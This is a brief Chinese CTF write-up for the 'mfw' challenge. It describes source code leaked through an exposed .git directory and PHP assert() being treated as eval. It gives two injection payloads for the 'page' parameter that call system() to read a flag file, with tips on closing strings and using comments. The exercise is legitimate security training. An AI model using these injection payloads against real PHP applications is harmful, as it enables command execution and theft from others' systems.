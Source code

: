 # 攻防世界 mfw(难度3)代码审计

## 思路

- 首先`.git`可以下载源码
- 但是我忘记了`GitHack`可以查看源码

## wp

- 下载源码后，有`assert`函数，这个东西当成eval处理

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1681912921411-f884b4be-db77-4614-bcdf-086130deaf1e.png#averageHue=%232c313d&clientId=uc4b40f47-08a4-4&from=paste&height=285&id=u1f31f4c6&originHeight=570&originWidth=1407&originalType=binary&ratio=2&rotation=0&showTitle=false&size=385756&status=done&style=none&taskId=ue617ca6b-0262-499d-8782-188b9de4878&title=&width=703.5)

- 所以这里可以通过闭合的方式注入

```php
page=') or system('/templates/flag.php')
page='.system("cat ./templates/flag.php").'
```

## 总结

- `or`可以用在字符串中，作用相当于`;`
- 可以用单行注释`# 或 //`,多行注释`/*`注释后面的内容